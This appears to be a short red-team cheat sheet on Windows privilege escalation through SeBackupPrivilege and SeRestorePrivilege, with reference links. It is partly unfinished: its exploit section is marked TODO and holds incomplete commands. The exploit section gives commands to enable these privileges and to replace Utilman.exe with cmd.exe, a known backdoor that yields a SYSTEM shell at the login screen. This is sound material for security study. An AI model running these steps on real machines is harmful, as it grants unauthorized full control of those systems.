 # Living off the Land

## 01 - Detect

Look for `SeBackupPrivilege` and `SeRestorePrivilege` enabled in the current local username account.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill this info

```
C:\> reg save

C:\> robocopy /b
```

```
PS C:\> .\Set-TokenPrivilege.ps1 -privilege SeBackupPrivilege <pid>
```

```
PS C:\> Import-Module .\EnableSeRestorePrivilege.ps1

PS C:\> Enable-SeRestorePrivilege
```


```
PS C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

PS C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

---
## References

### Github

- [gtworek: EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)

### Hacktricks

- [Hacktricks: Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Kojiroh

- [Kojiroh: How to Enable SeBackupPrivilege and SeRestorePrivilege](https://kojiroh.wordpress.com/2020/12/15/how-to-enable-sebackupprivilege-and-serestoreprivilege/)

### Lee Holmes

- [Lee Holmes: Adjusting Token Privileges in PowerShell](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)